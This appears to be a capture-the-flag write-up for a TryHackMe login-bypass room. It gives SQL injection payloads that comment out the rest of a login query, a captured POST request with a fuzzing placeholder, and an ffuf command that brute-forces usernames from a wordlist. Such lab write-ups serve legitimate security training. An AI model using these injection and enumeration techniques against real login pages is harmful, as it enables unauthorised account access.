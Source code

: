 ```yaml
---
render_with_liquid: false
title: Lesson Learned
tags: [tryhackme, sqli, auth-bypass, brute-force-attack]
---
```




> https://tryhackme.com/room/lessonlearned

# Info

This is a relatively easy machine that tries to teach you a lesson, but perhaps you've already learned the lesson? Let's find out.

Treat this box as if it were a real target and not a CTF.  

Get past the login screen and you will find the flag. There are no rabbit holes, no hidden files, just a login page and a flag. Good luck!

# Exploit


## Login Bypass Failed

![](/assets/obsidian/8d61a76cdd7ede64e596897210c8d4b4.png)

![](/assets/obsidian/e7ac091f354f8b54c509cdc763e829d7.png)

![](/assets/obsidian/a2c3ad98bde1006d3212314507046db5.png)

## Use the right login bypass payload

According to *Tib3rius*'s' tweet

> https://twitter.com/0xTib3rius/status/1624819441044185088?ref_src=twsrc%5Etfw

![](/assets/obsidian/a0be056224174d6a25c510310d70f765.png)

Correct Payload : 

```sql
username'; -- -

# or
username' AND 1=1 -- -
```

User `admin` doesn't seem to exist

![](/assets/obsidian/be8173184a5becbd1c61afd09668521b.png)


## Brute force a valid user

Save the login request from burp suite, and replace the username parameter to `FUZZ`

```bash
vi login.req
```

```http
POST / HTTP/1.1
Host: 10.10.101.99
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.15.32/
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Origin: http://10.10.15.32
Connection: close
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
Pragma: no-cache
Cache-Control: no-cache

username=FUZZ%27%3B+--+-&password=123
```

```bash
ffuf -c -request login.req -request-proto http -w /usr/share/seclists/Usernames/xato-net-10-million-usernames-dup.txt -fs 1298
```

![](/assets/obsidian/fc26b284b4182a9033abc86ec18228a4.png)

![](/assets/obsidian/55554665e3c12437505b615c920f7bfe.png)

![](/assets/obsidian/dddb952b1426a649f14b583e99919a1f.png)